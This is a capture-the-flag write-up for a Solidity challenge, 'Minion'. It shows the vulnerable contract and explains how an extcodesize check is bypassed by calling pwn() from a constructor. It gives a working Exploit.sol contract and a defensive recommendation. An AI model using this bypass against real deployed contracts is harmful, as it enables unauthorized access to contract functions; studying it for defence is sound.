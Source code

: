 **Description**

This challenge has a function called `pwn()` that has some `require` statements that make it seem impossible to call, such as, the fact that it can't be called by an EOA or a smart contract. It seems impossible, right? Well, let's see about that.

- **Minion.sol**
```solidity=
pragma solidity ^0.8.0;
contract Minion{
    mapping(address => uint256) private contributionAmount;
    mapping(address => bool) private pwned;
    address public owner;
    uint256 private constant MINIMUM_CONTRIBUTION = (1 ether)/10;
    uint256 private constant MAXIMUM_CONTRIBUTION = (1 ether)/5;
    
    constructor(){
        owner = msg.sender;
    }

    function isContract(address account) internal view returns(bool){
        uint256 size;
        assembly {
            size := extcodesize(account)
        }
        return size > 0;
    }    
    function pwn() external payable{
        require(tx.origin != msg.sender, "Well we are not allowing EOAs, sorry");
        require(!isContract(msg.sender), "Well we don't allow Contracts either");
        require(msg.value >= MINIMUM_CONTRIBUTION, "Minimum Contribution needed is 0.1 ether");
        require(msg.value <= MAXIMUM_CONTRIBUTION, "How did you get so much money? Max allowed is 0.2 ether");
        require(block.timestamp % 120 >= 0 && block.timestamp % 120 < 60, "Not the right time");
        contributionAmount[msg.sender] += msg.value;
        
        if(contributionAmount[msg.sender] >= 1 ether){
            pwned[msg.sender] = true;
            
        }
    }
    
    function verify(address account) external view returns(bool){
     require(account != address(0), "You trynna trick me?");
     return pwned[account];
    }
    
    function retrieve() external{
        require(msg.sender == owner, "Are you the owner?");
        require(address(this).balance > 0, "No balance, you greedy hooman");
        payable(owner).transfer(address(this).balance);
    }

    function timeVal() external view returns(uint256){
        return block.timestamp;
    }
}
```
**Attack Vector**

To begin, we can simply deploy a contract that calls the `pwn()` function in its constructor because it checks if the `tx.origin` and `msg.sender` are different, which means we can use a contract, but it also checks if the contract size is zero, which we can bypass by calling it from the constructor. What's left is that the `blocktimestamp % 120` should be less than 60, which has a `50%` chance of working, so the exploit contract will be the following:

**Attack Scenario**
- **Exploit.sol**
```solidity=
pragma solidity ^0.8.0;

interface IMinon{
    function pwn() external payable;
    function verify(address account) external view returns(bool);
} 
contract Exploit{
    address minion;
    constructor(){
        minion = 0x5b0754F254c55420Dc7f02270671e630707a9bC0;
        while(!IMinon(minion).verify(address(this)))
            IMinon(minion).pwn{value: 0.1 ether}();
    }
}

```

**Recommendation**

Do not rely on the contract size to decide if the caller is an `EOA`, as it can be bypassed by a call from the `constructor`.